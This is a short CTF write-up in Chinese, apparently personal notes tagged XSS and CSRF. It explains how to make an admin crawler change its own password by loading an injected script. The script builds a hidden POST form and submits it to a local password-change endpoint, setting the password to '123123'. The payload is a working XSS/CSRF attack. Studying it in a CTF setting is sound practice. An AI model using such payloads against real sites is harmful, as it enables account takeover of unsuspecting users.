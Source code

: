 - [[CTF/XSS]]
- [[CTF/CSRF]]
- # 思路
- 让爬虫修改自己的密码为123123即可登陆
- 爬虫没有外网连接，需要让其访问^^127.0.0.1^^
- 本次使用的是POST，需要新建一个虚拟表单
- 用这个：
	- {{embed ((63021a8b-2051-47f1-8372-f413519cd49b))}}
-
- # Payload
- ```html
  <script>
  function httpPost(URL, PARAMS) {
    var temp = document.createElement("form");
    temp.action = URL;
    temp.method = "post";
    temp.style.display = "none";
  
    for (var x in PARAMS) {
      var opt = document.createElement("textarea");
      opt.name = x;
      opt.value = PARAMS[x];
      temp.appendChild(opt);
    }
    document.body.appendChild(temp);
    temp.submit();
  
    return temp;
  }
  httpPost("http://127.0.0.1/api/change.php", {
    "p": "123123"
  });
  </script>
  ```
-